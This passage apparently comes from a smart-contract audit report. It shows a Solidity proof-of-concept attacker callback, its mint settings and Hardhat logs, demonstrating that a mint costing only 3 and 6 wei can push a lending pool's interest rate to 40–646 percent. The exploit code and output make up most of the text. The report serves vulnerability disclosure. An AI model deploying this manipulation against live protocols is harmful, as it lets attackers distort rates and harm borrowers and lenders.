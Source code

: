 ```
    ) override external{
        jtok.mmint(100_000 ether);
        usdc.mmint(100_000 ether);
        console.log("Asset requested:", assetIn);
        console.log("Collateral requested:", collateralIn);
        //check before
        uint256 beforeJtok = jtok.balanceOf(msg.sender);
        console.log("Attacker jtok before", beforeJtok);
        //transfer
        jtok.transfer(msg.sender, assetIn);
        //check after
        uint256 afterJtok = jtok.balanceOf(msg.sender);
        console.log("Attacker jtok after", afterJtok);
        //check before
        uint256 beforeUsdc = usdc.balanceOf(msg.sender);
        console.log("Attacker USDC  before", beforeUsdc);
        //transfer
        usdc.transfer(msg.sender, collateralIn);
        //check after
        uint256 afterUsdc = usdc.balanceOf(msg.sender);
        console.log("Attacker USDC After", afterUsdc);
        
    }
}
```

Which contains the following settings for a mint:
```
    uint112 xIncrease = 3;
    uint112 yIncrease = 1000000000000000;
    uint112 zIncrease = 5; //Static 167% CDP
```

According to my logs in hardhat:
```
    Maturity:  1641859791
    Callback before: 8333825816710789998373
    Asset requested: 3
    Collateral requested: 6
    Attacker jtok before 5000000000000000000000
    Attacker jtok after 5000000000000000000003
    Attacker USDC  before 8333825816710789998373
    Attacker USDC After 8333825816710789998379
    Callback after: 8333825816710789998379
    Callback expected after: 8333825816710789998379

```
The attacker is only required to pay 3 wei of Asset Token and 6 wei of Collateral token. However, after the attacker's malicious mint is up, the interest rate becomes:
```
yMax: 0.0002047533146923118
Min Interest Rate: 0.40383657499999975
Max Interest Rate: 6.461385199999996
zMax: 1666.6666666666667
```
Between 40 and 646 percent.
